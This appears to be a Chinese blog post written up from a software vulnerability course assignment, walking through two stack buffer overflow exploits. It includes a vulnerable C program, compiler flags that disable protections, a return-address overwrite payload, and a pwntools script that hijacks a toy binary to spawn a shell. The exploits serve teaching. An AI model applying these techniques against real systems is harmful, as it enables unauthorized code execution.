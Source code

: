 ```yaml
---
title: 栈溢出利用
date: 2020-09-16 15:59:59
tags: ["随笔"]
index_img: ../assets/gdb-debug.png
---
```


# 概述

![stack-frames](../assets/stack-frame.jpg)

软件漏洞分析课程的一次作业，利用了栈内存的缓冲区溢出，覆盖了返回地址，从而达到劫持控制流的目的。如果希望能具体了解一下图中 c 函数调用的实现，可以看一下 B 站上陈渝教授的这个视频。

<iframe style="margin-left: 50%;transform: translateX(-50%);width: 50vw;height: 40vw;" src="//player.bilibili.com/player.html?aid=77228694&bvid=BV1mJ411X73U&cid=132102373&page=5" scrolling="no" border="0" frameborder="no" framespacing="0" allowfullscreen="true"> </iframe>

# EXP1

```c
#include <stdio.h>
#include <string.h>

void function2()
{
  printf("Executed chagned\n");
}

void function1()
{
  char buffer[5];
  strcpy(buffer,str);
}

void main(int argc, char *argv[])
{
  function1(argv[1]);
  printf("Executed normally\n");
}
```

使用`gdb`进行调试，`strcpy`函数可以被利用引起缓冲区溢出，目前的问题时需要多长的字符串，以及需要将`function1`栈帧的返回地址覆盖为什么

环境

> ubuntu 16.04
>
> gcc 5.4.0
>
> gdb 7.11.1

![arch](../assets/ubuntu-arch.png)

关闭堆栈保护机制，使用`gcc`编译

```bash
gcc -g main.c -m32 -o main32 -z execstack -fno-stack-protector
```

![gdb](../assets/gdb-debug.png)

可以得出`ebp`与`&buffer`相距 13 个字节，同时返回地址占用 4 个字节，`function2`的地址为`0x0804845B`。由于采用的是`小端存储`，因此需要将目标函数地址按字节倒序写入。构造出 payload`AAAAAAAAAAAAAAAAA\x5B\x84\x04\x08`

![stack-overflow-result](../assets/stack-overlow-result.png)

成功调用了`function2`，同理地址也可以被改成其他的函数地址。

# EXP2

已知一个[二进制文件](https://raw.github.com/ChenKS12138/ChenKS12138.github.io/source-code/assets/stack-tutorial)，通过 ida 静态调试。

![ida](../assets/stack-overflow-ida.png)

vulnerable_function 中的 buffer 只需要 1 个字节，但是第五行的 read 函数可以输入 256 个字节，这里可能存在着栈溢出。根据第三行的注释推测，`&buffer`距离`ebp`位 0x30 个字节，猜测我们需要构造的 payload 为 52 字节的字符串再加上目标函数的地址，即`backdoor`函数的地址。

```python
from pwn import *
p=process("./stack");

ret_addr=0x0804846B

payload = "a"*52+p32(ret_addr)

p.sendline(payload)
p.interactive()
p.close()
```

![EXP2-RESULT](../assets/stack-overflow-pwn-result.png)

成功拿到 shell
